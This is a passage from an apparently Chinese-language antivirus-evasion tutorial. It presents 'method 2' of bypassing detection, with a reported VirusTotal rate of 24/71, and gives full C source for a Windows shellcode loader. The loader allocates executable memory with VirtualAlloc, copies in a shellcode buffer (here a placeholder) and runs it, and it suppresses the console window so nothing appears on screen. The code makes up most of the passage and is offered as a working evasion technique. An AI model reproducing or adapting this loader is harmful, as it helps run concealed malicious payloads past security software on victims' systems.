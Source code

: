 
## 2.2 方法2:申请动态内存加载(VT免杀率24/71)

下面的代码会申请一段动态内存，然后加载shellcode。

```
#include <Windows.h>
#include <stdio.h>
#include <string.h>

#pragma comment(linker,"/subsystem:\"Windows\" /entry:\"mainCRTStartup\"") //windows控制台程序不出黑窗口

unsigned char buf[] =
"shellcode";


main()

{
	char *Memory;

	Memory=VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);

	memcpy(Memory, buf, sizeof(buf));

	((void(*)())Memory)();

}
```
还是使用方法1的方式进行编译

![84335b73f8cebcbfc78da34cdcde1d1d](images/2020.03-bypass-03/11.png)
